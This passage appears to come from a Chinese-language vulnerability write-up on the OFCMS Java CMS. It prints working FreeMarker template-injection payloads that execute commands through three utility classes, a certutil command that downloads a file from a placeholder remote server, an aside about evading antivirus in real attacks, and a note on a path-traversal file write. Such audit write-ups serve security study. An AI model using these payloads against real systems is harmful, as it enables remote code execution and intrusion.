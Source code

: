 ```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
```



构造方法二：
`freemarker.template.utility` 中的 `ObjectConstructor类`

```
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
```



构造方法三：
`freemarker.template.utility` 中的 `JythonRuntime类`

```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```



具体语句解析，原始：`<#assign word_wrapp = "com.acmee.freemarker.WordWrapperDirective"?new()>`，利用 `Execute` 类构造恶意语句 `<#assign xxx= "freemarker.template.utility.Execute"?new()>${xxx("calc")}`，其中xxx为相同的字符，亲测数字不能触发语句，`freemarker.template.utility.Execute` 为 freemarker 模板引擎的

![image-20221021014155077](https://funsiooo.github.io/images/Java/ofcms/image-20221021014155077.png)
![image-20221021014135817](https://funsiooo.github.io/images/Java/ofcms/image-20221021014135817.png)

尝试利用 `certutil.exe` 远程下载文件，远程服务器文件内容只是123456，但由于使用了 `certutil` 命令，系统会拦截

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
  ${ ex("certutil -urlcache -split -f http://x.x.x.x:2333/ssti.txt ssti.exe") }
```

![image-20221021012311523](https://funsiooo.github.io/images/Java/ofcms/image-20221021012311523.png)
![image-20221021012141523](https://funsiooo.github.io/images/Java/ofcms/image-20221021012141523.png)

把防护关了以后，会下载到 tomcat 的目录下。所以实战中得考虑，绕过主机防护设备，马儿得免杀

![image-20221021012506146](https://funsiooo.github.io/images/Java/ofcms/image-20221021012506146.png)

#### 任意文件写入

漏洞点同样在 `SSTI` 漏洞位置中的 `save` 函数中

![image-20221021020833483](https://funsiooo.github.io/images/Java/ofcms/image-20221021020833483.png)

首先从前台获取 `file_name、file_content` 两个参数，该函数的 `file_name` 是直接和 `pathfile` 目录拼接，导致可以路径穿越，文件可以写到任意位置

![image-20221021021122226](https://funsiooo.github.io/images/Java/ofcms/image-20221021021122226.png)
![image-20221021021309015](https://funsiooo.github.io/images/Java/ofcms/image-20221021021309015.png)
